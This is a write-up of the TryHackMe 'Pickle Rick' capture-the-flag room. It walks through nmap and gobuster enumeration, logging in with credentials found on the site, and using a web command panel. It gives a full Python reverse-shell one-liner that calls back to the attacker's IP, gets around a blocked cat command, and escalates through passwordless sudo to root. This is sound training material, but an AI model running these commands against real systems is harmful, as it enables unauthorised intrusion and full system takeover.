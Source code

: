 # TryHackMe-Pickle-Rick
This is a writeup for Pickle Rick TryHackMe machine!  
https://tryhackme.com/room/picklerick

## Scanning & Enumeration

To begin with this machine, we will perform a nmap scan on our target:

```
nmap -sV -sC -T5 10.10.122.153
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-26 01:01 EDT
Nmap scan report for 10.10.122.153
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 79:d6:1c:ca:5e:5c:3f:14:83:d4:21:07:b1:01:76:c1 (RSA)
|   256 61:2e:22:78:78:b9:d7:7e:c9:77:2d:d3:29:07:07:da (ECDSA)
|_  256 07:64:71:80:17:56:a6:79:61:bd:d4:09:f3:85:15:4d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Service Enumeration
### Port 22 - SSH
### Port 80 - HTTP

Now we'll proceed to visit the website located at port 80
![image_2024-04-26_001448881](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/028603ac-1f72-4fd7-8b5a-83b00aa96054)
This is the first thing we see on the website, if we take a view on the page source we can find this
![image_2024-04-26_001731557](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/01135460-5b08-40c8-bfb3-cae0ffbea415)
Looks like we found an username, next, we will proceed to find hidden directories that may have been hidden from us
## Directory Fuzzing
## Using Gobuster
**Gobuster** is a tool used to brute-force:
* URIs (directories and files) in web sites.
* DNS subdomains (with wildcard support).
* Virtual Host names on target web servers.
* Open Amazon S3 buckets.
* Open Google Cloud buckets.
* TFTP servers
#### If you wish to install Gobuster, here is the link to the official github repository: https://github.com/OJ/gobuster
```
gobuster dir -u 'http://10.10.122.153/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 --no-error -x php,sh,txt,cgi,html,css,js,py
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.122.153/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,sh,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 882]
/.php                 (Status: 403) [Size: 278]
/.                    (Status: 200) [Size: 1062]
/assets               (Status: 301) [Size: 315] [--> http://10.10.122.153/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
```
This are some directory gobuster could find for us, we could be interested in **/login.php** so we will navigate into it
![image_2024-04-26_003529817](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/bbb9309b-3f13-431f-9c04-31f441a966f2)
We will find a login page, we already have the username but we lack the password, so we can keep with the directory fuzzing
At some point, we will encounter a file called **robots.txt**, most websites will have a robots.txt file which basically tells the sitee what it is allowed and not allowed to index.
If we check the robots.txt file we will encounter
![image_2024-04-26_003953275](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/f874ffe2-2943-4d26-991e-d1a19f75a39b)
This could be the password for our **/login.php** so lets try
![image_2024-04-26_004100740](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/a0f5cb3e-e8eb-40fd-949e-1416b55078db)
And we were right, it was indeed the password for our **/login.php**
## Command Panel
The site we were redirected has a command panel, so, lets try to execute some simple command to see if it allows us to do so
![image_2024-04-26_004451144](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/9fb45fdf-e904-4727-a731-71c03ef058e0)
And with this, we realize we can actually execute commands, if we try to execute a **cat** in Sup3rS3cretPickl3Ingred.txt, we are disallowed to perform it
![image_2024-04-26_004650641](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/488fe1f4-f619-46bc-a066-36a7ea11114c)
We can read the file if we do this though
```
http://<ip>/Sup3rS3cretPickl3Ingred.txt
```
And like that, we will have the first ingredient

At this point, we could go for two ways on exploiting this machine to get the other ingredientes

## First way
### Getting a reverse shell through command panel
First, we can search the python version with 
```
which python3
which python2
which python
```
We will find this
![image_2024-04-26_005506068](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/00f2e85c-1ce6-4aa0-bb96-c120d5d09188)
Ok, so now we know that python3 is on this machine so lets get a reverse shell using this:
`python3 -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<yourIp>",<listeningPort>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
Before we execute the command we need a netcat set on the port we specified like this

![image_2024-04-26_005931396](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/28f227fb-d676-4c0b-9a7e-5797d115a2bb)

If everything is working right, we will receive a reverse shell on our listening port

![image_2024-04-26_010239772](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/959d6e72-01b1-4c63-a953-ccd4d6226ed5)

We can upgrade this shell using `bash -i`
So, with this shell, we are way more comfortable moving around the machine without needing to use the command panel
Lets search for the other ingredients

![image_2024-04-26_010637175](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/059b7936-ce3a-410b-9197-0cf37deebe78)

If we move to this directory and do a `ls` on it, we will find the second ingredient

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/6fab408b-ff97-424a-ae4e-5d36c30ea34b)

Or we can just ls the directory to see what is inside of it

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/a33781a9-c3d7-45c6-9c04-862b6a78352d)

We will find the third ingredient on **/root** but if we try to `cd` on it, we will find we are unable to do it, so lets check for our privileges with `sudo -l`

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/70d7d8f8-d240-4304-9b52-8d068f9c4dcc)

To our surprise, all commands are allowed without any password needed so lets just do a `sudo bash -i` to escalate our session into a root one

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/819bc036-1b5d-4891-8c6c-e4ad6652600c)

And just like that we are user root and now we can read the third ingredient within the /root directory

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/a3d4301f-0bae-4b87-a2f4-92da370c1481)

## Second Way

If we decide to take this path, we need to proceed with our command panel we already have in **/portal.php** so, lets begin

If we perform a `ls` on the command panel we can also find a file called **clue.txt**, if we go to the route of this file like we did with the first ingredient we will find this

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/bce2d97a-308d-4494-89d2-9d8e67583a05)

After a while looking around the system we can find the second ingredient at **/home/rick**

As we know, `cat` command is disabled for the command panel, so if we research around internet we find that we can use `less` command to view the content of the file in the next way
`less '/home/rick/second ingredient'`

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/175ef234-c04a-406b-be40-80fc55332fc5)

Like that, we are now able to read the content of the second ingredient, so lets read the content of the third ingredient

Lets use `sudo -l` to see which privileges we have

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/38de0a54-f432-4670-a30e-dccc82807ba9)

And for our surprise we are allowed to perform all commands without the need of any kind of password, lets do a sudo ls /root to check this

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/b6197946-fec0-4e9f-89cc-2954764ee77c)

And like that we were able to find the name of the third ingredient, so if we want to read it, we will just use `less` command in this way 

`sudo less /root/3rd.txt`

![image](https://github.com/smoothonghub/TryHackMe-Pickle-Rick/assets/86502006/273ecced-a4c1-4e68-8287-fc97c1ec1b7a)

And just like that we have completed this room!

Hope this helped.




